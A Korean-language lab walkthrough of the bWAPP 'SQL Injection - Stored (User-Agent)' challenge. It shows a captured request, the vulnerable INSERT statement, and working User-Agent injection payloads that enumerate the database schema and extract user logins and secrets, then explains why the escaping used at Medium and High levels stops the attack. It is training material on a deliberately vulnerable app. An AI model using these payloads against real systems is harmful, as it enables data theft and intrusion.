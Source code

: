 ```yaml
---
layout: single
title: (bWAPP)SQL Injection - Stored (User-Agent)
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/stored-useragent-archive/image.png)
- HTTP 요청 헤더의 User-Agent 값이 페이지상에 노출되고 있다.
- 출력되는 문구를 보면 IP 주소와 User-Agent 문자열을 가지고 데이터베이스에 로그인된다.
- 즉 두 값을 가지고 DB에 요청을 하는 거 같다.
- 즉 User-Agent 값을 조작하여 조작된 값과 미완성된 서버측의 SQL 구문이 합쳐져
- DB에 악의적인 질의가 가능하다..

```
GET /bWAPP/sqli_17.php HTTP/1.1
Host: <ip>
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://<ip>/bWAPP/portal.php
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: BEEFHOOK=UhoQoFNoEivNNG7EheQSAIsf8yrWl2cCOaY1uXgrLizZDIE3F6QYDxbWZ3vLOnqtvLxBoUX7D3L6LmPP; security_level=0; PHPSESSID=213a612355e7ca062dfdb9868aca27e2
Connection: close
```

- Burp Suite를 통해 요청 패킷을 잡아보면 위와 같이 존재한다.

![그림 1-2](/assets/image/bwapp/injection/stored-useragent-archive/image2.png)
- User-Agent 에 ‘(싱글쿼터)를 넣게되면 그림 1-2와 같이 DBMS Error를 반환한다.

> ``` $sql = "INSERT INTO visitors (date, user_agent, ip_address) VALUES (now(), '" . sqli($user_agent) . "', '" . $ip_address . "')";```

- 미완성된 SQL구문은 위 코드와 같이 이루어져 있다.
- (now(),useragent,ip) 와 같이 이루어져 있다.

```sql
User-Agent: a','192.168.146.1')#
```

![그림 1-3](/assets/image/bwapp/injection/stored-useragent-archive/image3.png)
- 위 코드와 같이 User-Agent 값을 변조해서 보내게 되면 a가 출력된다.
- 하지만 해당 부분인 문자열로 감싸져 있어서 이를 탈출하기가 불가능 하여
- 뒷 부분에 이어지는 IP_ADDRESS 부분을 변조시킬 수 있다.

```sql
User-Agent: a',(select schema_name from information_schema.schemata limit 1,1))#
```

![그림 1-4](/assets/image/bwapp/injection/stored-useragent-archive/image4.png)
- 위와 같이 IP Address 부분에 bWAPP 데이터베이스가 노출되었다.
- 이와 같이 테이블명 및 컬럼명 추출이 가능하다.

```sql
User-Agent: a',(select table_name from information_schema.tables where table_schema='bWAPP' limit 3,1))#
```

```sql
User-Agent: a',(select column_name from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 1,1))#
```

```sql
User-Agent: a',(select concat(login,0x3a,secret) from bWAPP.users limit 1,1))#
```

![그림 1-5](/assets/image/bwapp/injection/stored-useragent-archive/image5.png)
- 성공적으로 데이터를 추출할 수 있다.


## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.


